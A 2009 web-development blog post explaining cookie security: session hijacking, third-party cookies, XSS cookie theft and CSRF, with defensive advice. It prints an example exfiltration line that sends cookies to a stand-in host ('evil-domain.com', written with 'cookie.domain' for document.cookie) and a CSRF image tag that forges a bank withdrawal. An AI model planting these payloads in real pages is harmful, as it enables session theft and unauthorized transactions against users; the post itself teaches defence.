 ```yaml
---
title: Cookies and security
author: Nicholas C. Zakas
permalink: /blog/2009/05/12/cookies-and-security/
categories:
  - Web Development
tags:
  - Cookies
  - HTTP
  - JavaScript
  - Security
  - Session Hijacking
  - Web Development
  - XSS
---
```

In my [last post][1], I discussed the basics of HTTP cookies and how they work. Missing from that discussion was the topic of security, mostly because it is a discussion in and of itself. Indeed, it's hard to talk about cookies without talking about security implications since there are so many. Cookies would seem to have all the security they need by virtue of the `domain`, `path`, and `secure` options, but the nature of web pages complicates the matter significantly.

## User logins and session hijacking

One of the most common uses for cookies is to track user login state. The mechanism is quite simple: you go to a page and sign in with a username and password. If the information is valid, a cookie is sent with the next response that uniquely identifies the user. Each page in the site checks for that cookie in order to establish login credentials. As long as the cookie remains intact, you are verified as the user who originally logged in. Most sites set these cookies as session cookies, to be deleted when the browser closes, as a security measure to prevent you from remaining logged in unintentionally. Many login forms also offer a &#8220;remember me&#8221; checkbox to change this to a persistent cookie at the user's request. Even then, most systems have a limit of one or two weeks to prevent runaway login credentials that may risk the security of the user.

The problem with this system is that it leaves a single data point for user identification. Further, cookies are sent in plain text over the Internet, making them vulnerable to [packet sniffing][2] whereby someone intercepts traffic between a computer and the Internet. Once the value of a user's login cookie is taken, it can be used to simulate the same session elsewhere by manually setting the cookie. The server can't tell the difference between the original cookie that was set and the duplicated one that was stolen through packet sniffing, so it acts as if the user had logged in. This type of attack is called [session hijacking][3].There are a few ways to prevent session hijacking using cookies.

The first, and most common technique among the security-conscious, is to only send cookies over SSL. Since SSL encrypts the request on the browser before transmitting across the Internet, packet sniffing alone can't be used to identify the cookie value. Banks and stores use this technique frequently since user sessions are typically short in duration.

Another technique is to generate a session key in some random fashion and/or a way that is based on information about the user (username, IP address, time of login, etc.). This makes it more difficult to reuse a session key, though doesn't make it impossible.

Yet another technique is to re-validate the user before performing an activity deemed to be of a higher security level, such as transferring money or completing a purchase. For example, many sites require you to log in a second time before changing a password.

## Third-party cookies

Web pages allow inclusion of resources from anyplace on the web. For example, my site uses the [YUI CSS][4] foundation for its layout and therefore includes these files from the Yahoo! CDN at `yui.yahooapis.com` via a `<link>` tag. Due to cookie restrictions, the request to retrieve this CSS resource will not include the cookies for `nczonline.net`. However, `yui.yahooapis.com` could potentially return its own cookies with the response (it doesn't, it's a cookie-less server). The page at `nczonline.net` cannot access cookies that were sent by `yui.yahooapis.com` because the domain is different and vice-versa, but all the cookies still exist. In this case, `yui.yahooapis.com` would be setting a third-party cookie, which is a cookie tied to a domain separate from the containing page.

There are several ways to include resources from other domains in HTML:

  * Using a `<link>` tag to include a style sheet.
  * Using a `<script>` tag to include a JavaScript file.
  * Using an `<object>` or <embed> tag to include media files.
  * Using an `<iframe>` tag to include another HTML file.

In each case, an external file is referenced and can therefore return its own cookies. The interesting part is that with the request, these third-party servers receive an HTTP `Referer` heading (spelling is incorrect in the spec) indicating the page that is requesting the resource. The server could potentially use that information to issue a specific cookie identifying the referring page. If that same resource is then loaded from another page, the cookie would then be sent along with the request and the server can determine that someone who visited Site A also visited Site B. This is a common practice in online advertising. Such cookies are often called tracking cookies since their job is to track user movement from site to site. This isn't actually a security threat but is an important concept to understand in the larger security discussion.

### Cookie stealing and XSS

The ability to load JavaScript from a different domain onto the page opens up a particularly troublesome security hole. Even though the request for a third-party JavaScript resource doesn't include the containing page's cookies, the script can get access to them. All JavaScript on a page is considered to be running in the same domain, with the same path, and using the same protocol as the page itself. That means a script from loaded another domain will get that page's cookies by reading `document.cookie`.

As an example of how dangerous this is, suppose I load a script from `evil-domain.com` that contains some actually useful code. However, the folks at `evil-domain.com` then switch that code to the following:

    (new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;

Now this code is loaded on my page and silently sends my cookies back to `evil-domain.com`. This happens to everyone who visits my site. Once they have my cookies, it's much easier to perpetrate other attacks including session hijacking. When an attack occurs due to injection of third-party JavaScript into a page, it's called a [cross-site scripting][5] (XSS) attack.

Cookie stealing doesn't occur just from including a malicious script on your page accidentally, it can also occur due to poor input filtering. A [simple example][6] of this is a page where the user can enter text that is output, as-is, into the page. If the text contains a `<script>` tag with the same code as above then cookies can once again be stolen.

XSS attacks like this have been perpetrated against large sites such as LiveJournal and [MySpace][7] in the past. The best protection comes in two forms:

  1. Don't include JavaScript from untrusted domains. The CDNs of large companies such as Yahoo!, Google, and AOL should be safe; use extreme caution when including from other locations.
  2. Filter out HTML from all user input or otherwise sanitize the input. Never accept user input and output onto a page without some sort of filtering.

This is precisely why HTTP-only cookies are an important addition to standard cookie implementations. If a cookie were marked as HTTP-only, then a malicious script wouldn't be able to access that cookie via document.cookie and therefore wouldn't be able to steal your cookies. When HTTP-only cookies are officially supported in all browsers, it will become a valid third option. Right now, it's a nice mitigation technique but not a preventative one.

### Cross-site request forgery (CSRF)

Another type of attack involving cookies is [cross-site request forgery][8] (CSRF). In this type of attack, the attacker is able to convince the browser to send a request on behalf of a logged-in user to do something malicious, such as transfer money into the attacker's bank account. This can be done using the same XSS techniques discussed earlier or by using simple HTML.

Wikipedia gives a good example of someone posting a message on a forum where there is no input filtering. A user can therefore include an image that isn't really an image, it's a request to your bank's server to withdraw money, such as:

    <img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">

If you were logged in to bank.example, meaning your cookies were still valid, then the request would be sent as soon as you viewed the forum message. The bank would validate the request because the proper cookies were sent even though you didn't initiate the request through some action.

As with XSS, input filtering is an important tool in prevent CSRF attacks. There are a few others as well:

  * Require confirmation for any sensitive action. In this example, the page at bank.example should not initiate the withdrawal. Instead, it should display a confirmation page that requires you to validate the action being requested. The validation may include another login screen for extra security.
  * Cookies that validate users in systems with sensitive data should have a short expiration time. In some cases, an expiration period of a few minutes may be necessary.
  * Require validation not just with cookies, but also by referrer and/or request type (POST instead of GET).

CSRF attacks can be particularly tricky to track down once initiated, so prevention is key.

## Conclusion

With all of the security issues surrounding cookies, is it safe to use them? The answer is yes so long as you take the proper precautions to protect your users and systems from XSS and CSRF attacks. Input validation alone decreases the number of attacks that can be executed on your site, and it's a very low-cost addition that pays off in big ways. There are a lot of big companies that rely on cookies for identifying their users and do so in a safe way. The most important thing you can do when using cookies is to stay informed about security issues and the latest techniques for preventing attacks.

 [1]: {{site.url}}/blog/2009/05/05/http-cookies-explained/
 [2]: http://en.wikipedia.org/wiki/Packet_sniffing
 [3]: http://en.wikipedia.org/wiki/Session_hijacking
 [4]: http://developer.yahoo.com/yui/3/cssbase/
 [5]: http://en.wikipedia.org/wiki/Cross-site_scripting
 [6]: http://www.steve.org.uk/Hacks/XSS/simple.html
 [7]: http://namb.la/popular/tech.html
 [8]: http://en.wikipedia.org/wiki/Cross-site_request_forgery
